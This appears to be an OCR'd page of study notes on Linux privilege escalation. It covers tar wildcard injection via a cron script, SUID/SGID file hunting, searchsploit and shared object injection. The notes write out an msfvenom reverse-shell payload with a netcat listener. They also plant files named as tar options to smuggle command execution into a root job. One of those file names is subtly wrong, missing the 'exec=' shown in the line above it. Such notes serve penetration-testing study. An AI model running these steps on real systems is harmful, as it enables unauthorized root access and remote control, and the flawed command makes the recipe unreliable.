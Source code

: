 ```
ls *
touch ./-1
ls *
```

https://gtfobins.github.io/ can help determine whether a command has command line options which will be useful for our purposes

Example:
```
cat /etc/crontab
#locate a shell script and view contents
cat /usr/local/bin/compress.sh
       #! /bin/sh
       cd /home/usr
       tar czf /tmp/backup.tar.gz *
# from https://gtfobins.github.io/  we see tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
# Use msfvenom to create revese shell binary
msfvenom -p linux/x64/shell_reverse_tcp LHOST=ip LPORT=port -f elf -o shell.elf
#copy the shell.elf to compromised system and make it executable
touch ./--checkpoint=1
touch ./--checkpoint-action=shell.elf
#listen on port
nc -nvlp port
```

##
## SUID/SGID Files
SUID files get executed with priviliges of the file owner
SGID files get executed with the priviliges of the file group
If the file is owned by the root, it get executed with root priviliges, and we may be able to use it to escalate priviliges.

Use following command to list files with SGID or SUID set
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
Use https://gtfobins.github.io/ to find shell escape sequences

### Search vuln 
Search for vuln in files with SGID or SUID set
```
searchsploit <file>  <version>
```

### Shared Object Injection
*When a program is executed, it will try to load the shared objects it requires
By using strace, we can track these system calls and determing whether any shared objects were not found
If we can write to the location the program tries to open, we can create a shared object and spawn a root shell
